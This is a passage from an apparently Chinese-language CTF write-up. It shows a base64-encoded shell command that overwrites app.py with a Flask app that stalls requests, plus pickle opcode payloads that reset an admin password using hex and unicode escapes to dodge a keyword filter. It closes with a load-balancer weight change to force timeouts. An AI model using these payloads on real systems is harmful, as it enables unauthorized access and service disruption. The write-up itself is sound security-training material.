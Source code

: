 直接执行shell，替换原本的app.py

```
echo ZnJvbSBmbGFzayBpbXBvcnQgRmxhc2sKCgphcHAgPSBGbGFzayhfX25hbWVfXywgc3RhdGljX3VybF9wYXRoPScnKQoKQGFwcC5yb3V0ZSgnLycsIG1ldGhvZHM9WydHRVQnLCAnUE9TVCddKQpkZWYgaW5kZXgoKToKICAgIGltcG9ydCB0aW1lCiAgICB0aW1lLnNsZWVwKDMwMCkKICAgIHJldHVybiAiIgoKaWYgX19uYW1lX18gPT0gJ19fbWFpbl9fJzoKICAgIGFwcC5ydW4oaG9zdD0nMC4wLjAuMCcsIHBvcnQ9NTAwMCk= |base64 -d > app.py
```

替换后，我们再次访问一下，坐等服务响应，但是因为超时，就出现了504

![image-20220807181008828](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220807181008828.png)

### 解法2

还是构造opcode

但是根据源码提示，我们需要登录admin账号才能进入下一个挑战

因为app中导入了admin，所以直接可以通过app修改admin的内容

`secret`我们利用十六进制绕过`\\x73ecret`

```
capp
admin
(S'\\x73ecret'
S'1'
db.
```

我们base64加密，直接传进去，成功修改admin密码为1，然后登录

也可以下面这个：利用unicode字符绕过secret

```
c__main__
admin
p0
(dp1
Vsecre\u0074
p2
S'1'
p3
sb.
```

进去之后，给的是⼀个lua-resty-balancer负载均衡，⽬标是让slb超时错误

查看nginx配置后，重点是这个位置

![image-20220807182232114](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220807182232114.png)

我们只需要改变weight为0即可

借用的图（环境关了）

![image-20220807182403681](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/image-20220807182403681.png)
